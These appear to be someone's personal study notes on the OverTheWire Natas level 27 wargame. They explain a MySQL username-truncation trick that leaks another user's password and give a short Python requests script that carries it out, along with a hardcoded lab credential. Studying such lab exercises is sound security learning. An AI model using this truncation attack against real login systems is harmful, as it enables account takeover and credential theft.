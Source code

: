 
2024-08-03 14:07

Source: #natas #web #py 

Tags: [[SQL injection]] [[PHP]]

> [!NOTE]
> ### aka SQL Buffer overflow 

we have a login page
Basically, this code will check if the user exists in the database and if you got the right password, it will display the password. If the user does not exists, it will be created in the database

- HTML entities is PHP's notion and attempt to secure things down, like remove all the HTML entities if you were to try and do like cross-site scripting or inject HTML elements or JavaScript code into an input field's

- `mysql_real_escape_string` function is another PHP mitigation function that will try and lock down or protect a lot of regular sequel injection techniques

```php
function dumpData($link,$usr){ 
     
    $user=mysql_real_escape_string($usr); 
     
    $query = "SELECT * from users where username='$user'"; 
    $res = mysql_query($query, $link); 
    if($res) { 
        if(mysql_num_rows($res) > 0) { 
            while ($row = mysql_fetch_assoc($res)) {  
                //return print_r($row); 
                return print_r($row,true); 
            } 
        } 
    } 
    return False; 
} 
```
it will return a number of rows and if it's greater than 0 we have multiple results, so what it does is it does this while loop that it iterates through every single row (this is peculiar right?) because we only expected it to return one result like if there's only one user we're trying to login as a specific user that would probably just be one, but what if we are in the case if there are multiple results if there are multiple rows to look through

since the DB described has a 64 varchar size, we create a user named longer than the length that is setup.
we input a word with spaces that are more than 64 size and append some character in the end
the spaces are eventually truncated along with the character appended at the end 

we create a user named `"natas28" + " "*58 + "x"` and in the next request we ask for `natas28` and give the password that we used for our user. since MySQL will truncate the input to match the maximum field size. the server returns original natas28's password.  
##### In the old version of this level the above mentioned trick worked 
below is the code that works on the newer version 

```python
import requests
username = 'natas27'
password = 'u3RRffXjysjgwFU6b9xa23i6prmUsYne'

url = 'http://natas27.natas.labs.overthewire.org/'  
session = requests.session()

response = session.post(url, data = {"username": "natas28" + "\x00"*58 +"x", "password": "12" },auth =(username,password))

response = session.post(url, data = {"username": "natas28" , "password": "12" },auth =(username,password))
print(response.text)
```

### References

awesome explanation - [OverTheWire Wargames :: Natas :: Level 27 (n0j.github.io)](https://n0j.github.io/2017/07/20/otw-natas-27.html)

writeups with correct answers - 
https://github.com/timruff/overthewire/blob/main/natas/natas27/exploit.py
https://www.youtube.com/watch?v=87BKWwGEF1Q

writeups with incorrect answers - 
https://www.youtube.com/watch?v=Y7WXxmWKfxs
https://axcheron.github.io/writeups/otw/natas/
https://ivanitlearning.wordpress.com/2020/02/02/overthewire-natas2729/

https://sqltest.net/ - we can just experiment with sequel database and a quick and easy way without spinning up a server.